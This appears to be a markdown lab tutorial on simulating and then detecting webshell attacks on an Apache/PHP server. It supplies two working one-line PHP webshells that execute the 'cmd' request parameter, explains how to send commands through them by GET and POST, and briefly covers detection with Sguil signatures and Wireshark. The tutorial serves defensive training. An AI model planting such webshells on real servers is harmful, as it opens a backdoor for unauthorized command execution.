




# Simulating Webshell Attacks

Webshells are a method of gaining shell access by exploiting web services over HTTP or HTTPS. For an attacker, this is a great avenue for access to a remote server, as web services are designed to be highly available and C2 traffic can blend along with standard website access. When a web server is configured with PHP and allows user uploads, performing a webshell attack can be relatively easy.

## Webserver Configuration

To configure the server, run the following commands to setup Apache and PHP:

```
sudo apt -y update && sudo apt -y install apache2 && sudo apt -y install php
```

Now, populate the web server with the webshell files within `/var/www/html`.

**get_shell.php**
```
<?=`$_GET[cmd]`?>
```

**post_shell.php**
```
<?=`$_POST[cmd]`?>
```

These scripts will pull out the parameter named `cmd` from the HTTP requests and execute it on the command line.

## Simulating an Attack

To interact with these webshells, send HTTP requests with a crafted `cmd` parameter set to the command you want to execute on the command line. For `get_shell.php`, this can be done directly within the request URI in a web browser. Point to the shell, followed by `?cmd=` to pass in a command:



As `post_shell.php` carries the parameters in the POST data, this will need to be loaded in outside of the URI bar. This can be done within cURL or a similar command-line networking utility capable of specifying POST data in an HTTP request:



## Hunting a Webshell Attack

A webshell attack can be hunted by using tools like Sguil that have built-in signatures meant to detect webshell activity. Many of these signatures will look for the string `cmd=` in the request URI where a PHP file is involved, or general shell commands in HTTP requests.



## Hunting an Attack in Wireshark

Raw packet captures can detect this same activity as well by taking note of HTTP request URIs and HTTP POST data:

